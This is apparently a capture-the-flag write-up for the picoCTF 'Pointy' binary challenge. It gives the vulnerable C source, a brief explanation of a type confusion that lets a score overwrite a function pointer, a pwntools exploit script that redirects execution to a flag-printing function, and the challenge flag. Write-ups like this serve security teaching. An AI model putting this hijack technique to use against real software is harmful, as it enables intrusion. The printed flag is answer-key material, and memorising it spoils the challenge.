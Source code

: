 # Pointy (Binary)

![title](images/title.png)

<details>
	<summary>Source for vuln.c</summary>

```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define FLAG_BUFFER 128
#define NAME_SIZE 128
#define MAX_ADDRESSES 1000

int ADRESSES_TAKEN=0;
void *ADDRESSES[MAX_ADDRESSES];

void win() {
    char buf[FLAG_BUFFER];
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    puts(buf);
    fflush(stdout);
}

struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};

void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score;
    printf("Score Given: %d \n", score);

}

void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void* retrieveStudent(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}

void readLine(char * buff){
    int lastRead = read(STDIN_FILENO, buff, NAME_SIZE-1);
    if (lastRead<=1){
        exit(0);
        puts("could not read... see you!");
    }
    buff[lastRead-1]=0;
}

int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor;
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor);
        puts(professor->name);
        unsigned int value;
	    printf("Input the score: \n");
	    scanf("%u", &value);
        student->scoreProfessor(professor, value);       
    }
    return 0;
}
```
</details>

Looks like the vulnerability is scanf in the last part. The program gives scores to professors and stores them in memory printing them based on the student that scored them

This means if we student X gives professor Y a score of the win function, when we score again we can give the professors name as the students in order to call the win function when the score is printed

<details>
    <summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
import sys

argv = sys.argv

e = ELF('./vuln')
win = e.symbols['win']

if len(argv) > 1:
    from getpass import getpass
    ssh = ssh(host='2019shell1.picoctf.com', user='ems3t', password=getpass())
    p = ssh.process('vuln', cwd='/problems/pointy_2_030e643c8a0e842516b1c6a3ff826144')
else:
    p = process('./vuln')

p.sendlineafter('\n', 'bob')
p.sendlineafter('\n', 'frank')
p.sendlineafter('\n', 'bob')
p.sendlineafter('\n', 'frank')
p.sendlineafter('\n', str(win))         #store win function as franks score

p.sendlineafter('student\n', 'bill')
p.sendlineafter('\n', 'jerry')
p.sendlineafter('\n', 'frank')          #win function here
p.sendlineafter('\n', 'jerry')
p.sendlineafter('\n', '0')              #win function called here

p.interactive()
```
</details>

<details>
    <summary>Flag</summary>

picoCTF{g1v1ng_d1R3Ct10n5_cad9c1b8}
</details>